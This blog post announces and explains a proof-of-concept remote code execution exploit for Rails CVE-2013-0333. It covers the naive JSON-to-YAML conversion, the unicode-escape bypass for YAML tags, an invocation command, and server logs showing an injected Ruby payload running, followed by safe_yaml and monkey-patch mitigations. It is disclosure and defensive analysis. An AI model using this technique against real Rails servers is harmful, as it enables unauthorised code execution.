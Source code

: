 ```yaml
---
layout: post
title: Rails PoC exploit for CVE-2013-0333
author: postmodern
tags:
 - rails
 - ronin
 - poc
 - exploit
---
```


**TL;DR:** Same YAML [vulnerability][1], different code-path.

* [rails_omakase.rb]

Hot on the heels of [CVE-2013-0156], [CVE-2013-0333] was announced.
A code-path was discovered that allows `text/json` requests to be
translated into and parsed as YAML. This behavior _only_ exists in
Rails 2.3.x and 3.0.x.
 
This exploit uses the same YAML deserialization technique as the previous
[Rails PoC exploit][rails_rce.rb]. Please see the previous [write-up][1] for a
detailed explanation of how to achieve Remote Code Execution (RCE) via
`YAML.load`.

## ActiveSupport::JSON

In Rails 3.0.x, [ActiveSupport::JSON] acts as a proxy to various JSON parsing
libraries. By default Rails 3.0.x provides the [JSONGem], [Yajl] and [Yaml]
backends. [JSONGem] uses the [json] gem, [Yajl] uses the high-performance
[yajl] JSON parser, and [Yaml] attempts to translate JSON into YAML
before passing it to `YAML.load`. Oddly enough, [Yaml] (and not [JSONGem])
is the default JSON backend in Rails 3.0.x:

{% highlight ruby %}
ActiveSupport::JSON.backend
# => ActiveSupport::JSON::Backends::Yaml
{% endhighlight %}

The problem with the [Yaml] backend is that it's [convert_json_to_yaml] method
is incredibly naive. The method uses [StringScanner] to walk through the JSON
string, replacing JSON tokens with their YAML equivalents. The method does not
fully parse the JSON in order to emit proper YAML, nor does it validate that
the input is actually valid JSON. This is our opening.

However, [convert_json_to_yaml] does replace all `:` characters with `: `,
in an attempt to convert JSON Hashes into YAML Hashes. This will corrupt
our YAML tags:

{% highlight ruby %}
yaml = "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml)
# => "--- !ruby/hash: ActionController: : Routing: : RouteSet: : NamedRouteCollection"
{% endhighlight %}

Luckily, [convert_json_to_yaml] also parses JSON unicode-escaped characters:

{% highlight ruby %}
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml.gsub(':','\u003a'))
# => "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
{% endhighlight %}

Now to get the YAML payload from [rails_rce.rb] executing. The `module_eval`ed
code in [ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access][define_hash_access 3.0.x]
was similar to that of Rails 2.8.x, and was changed in [Rails 3.1.x][define_hash_access 3.1.x].
Due to this difference, we simply reused the Rails 2.x payload from the
[rails_rce.rb] exploit.

After some minor modifications to [rails_rce.rb] we had a working exploit:

    $ rails_omakase http://localhost:3000/secrets "puts 'lol'"

    lol
    
    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 18:53:18 -0800
      Processing by SecretsController#show as 
      Parameters: {"_json"=>#<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x00000002221080 @routes={:"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>#<struct defaults={:action=>"create", :controller=>"foos"}, required_parts=[], requirements={:action=>"create", :controller=>"foos"}, segment_keys=[:format]>}, @helpers=[:"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path"], @module=#<Module:0x00000002220fb8>>}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.4ms | ActiveRecord: 0.0ms)

## Again?

When Rails was updated for [CVE-2013-0156], it did not actually fix the
underlying root cause, that the [Psych][psych] YAML parser
[does not have a safe-mode][5]. As long as developers continue allowing
user-input near `YAML.load`, and there is no safe-mode to prevent YAML from
deserializing arbitrary Classes, YAML deserialization vulnerabilities will
continue to pop up. In the meantime, there is a [safe_yaml] library, which
provides a safe-mode and does prevent [rails_omakase.rb] from working:

    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 21:34:37 -0800
      Processing by SecretsController#show as 
      Parameters: {"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>{"defaults"=>{":action"=>"create", ":controller"=>"foos"}, "required_parts"=>nil, "requirements"=>{":action"=>"create", ":controller"=>"foos"}, "segment_keys"=>[":format"]}}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.2ms | ActiveRecord: 0.0ms)

**Update:** [@nelhage] has also written a [monkey-patch][6] for YAML,
that prevents any non-primitive objects from being deserialized. I have tested
this workaround against [rails_omakase.rb] on Ruby 1.9.3-p362 and Rails 3.0.19,
and can confirm it prevents the exploit from working. However, once loaded
it effects all `YAML.load` calls and cannot be disabled.

## Omakase?

I named this exploit [rails_omakase.rb], as an ode to [Rails Is Omakase][2];
I highly recommend the [dramatic reading][3]. In the blog post,
David Heinemeier Hansson (DHH) discusses the criticism Rails Core has received
over their changes to default settings. His main complaint is that merely
complaining about the changes, and not contributing code, does not improve the 
development process of Rails.

This vulnerability was the result of [changing the default JSON backend][4] from
[JSONGem] to [Yaml]. Additionally, it is unclear why anyone would ever
consider attempting to convert JSON into YAML, without fully parsing it first.
Like wise, [CVE-2013-0156] is equally perplexing, who could possibly think any
good would come from embedding YAML in XML?

Despite DHH's reassurance that Rails Core has the best of intentions when they
change default settings, they can and do make mistakes.

[CVE-2013-0156]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/61bkgvnSGTQ
[CVE-2013-0333]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/1h2DR63ViGo

[rails_omakase.rb]: https://gist.github.com/4660248
[rails_rce.rb]: https://gist.github.com/4499206

[json]: http://flori.github.com/json/
[yajl]: http://lloyd.github.com/yajl/
[psych]: https://github.com/tenderlove/psych
[safe_yaml]: https://github.com/dtao/safe_yaml#readme

[StringScanner]: http://rubydoc.info/stdlib/strscan/StringScanner
[ActiveSupport::JSON]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/decoding.rb
[JSONGem]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/jsongem.rb
[Yajl]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yajl.rb
[Yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb
[convert_json_to_yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb#L29-L96
[define_hash_access 3.0.x]: https://github.com/rails/rails/blob/v3.0.19/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171
[define_hash_access 3.1.x]: https://github.com/rails/rails/blob/v3.1.0/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171

[1]: http://ronin-ruby.github.com/blog/2013/01/09/rails-pocs.html
[2]: http://david.heinemeierhansson.com/2012/rails-is-omakase.html
[3]: http://gilesbowkett.blogspot.com/2013/01/a-dramatic-reading-of-rails-is-omakase.html
[4]: https://github.com/rails/rails/commit/a87683fb38d6cf66f39a7bd3faa6c969c63b1f46
[5]: https://github.com/tenderlove/psych/issues/119
[6]: https://gist.github.com/4659489

[@nelhage]: https://twitter.com/nelhage
